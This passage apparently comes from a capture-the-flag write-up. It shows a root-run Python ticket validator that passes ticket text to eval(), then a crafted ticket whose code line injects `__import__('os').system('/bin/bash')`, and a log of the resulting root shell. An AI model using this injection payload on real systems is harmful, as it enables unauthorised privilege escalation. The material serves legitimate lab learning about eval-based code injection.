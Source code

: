 ```python
#This is where the priv esc is. 
#If all the above checks pass it will take our number provided in the 4th line and remove "**" turning ""**11+"" into "11".
#Then it will evaluate if 11 divided by 7 has a remainder of 4 (it does)
#Because it has a remainder of 4 it will set a variable called "validationNumber" and run "eval()". Evail is a dangerous function
#The eval() function takes strings and executes them as code, for example eval('2+2') would return 4, we can use this to execute arbitray code on the system
        if code_line and i == code_line:
            if not x.startswith("**"):
                return False
            ticketCode = x.replace("**", "").split("+")[0]
            if int(ticketCode) % 7 == 4:
                validationNumber = eval(x.replace("**", ""))
                if validationNumber > 100:
                    return True
                else:
                    return False
    return False

def main():
    fileName = input("Please enter the path to the ticket file.\n")
    ticket = load_file(fileName)
    #DEBUG print(ticket)
    result = evaluate(ticket)
    if (result):
        print("Valid ticket.")
    else:
        print("Invalid ticket.")
    ticket.close

main()

```
 
 Now that we understand the requirements we can create a ticket. The last line will evaluate 11 + 1 == 12 and spawn a shell. (read the notes in the code above). This works because eval() lets us execute arbitrary code. We could have it print a string or do more math, but in this case just spawn a shell as root (because its running as root)
 root.md
 ```
 # Skytrain Inc
 ## Ticket to 
 __Ticket Code:__
**11+ 1 == 12 and __import__('os').system('/bin/bash')
 ```
 
Execution
```
development@bountyhunter:/tmp$ sudo /usr/bin/python3.8 /opt/skytrain_inc/ticketValidator.py
Please enter the path to the ticket file.
root.md
Destination: 
root@bountyhunter:/tmp# id
uid=0(root) gid=0(root) groups=0(root)

```
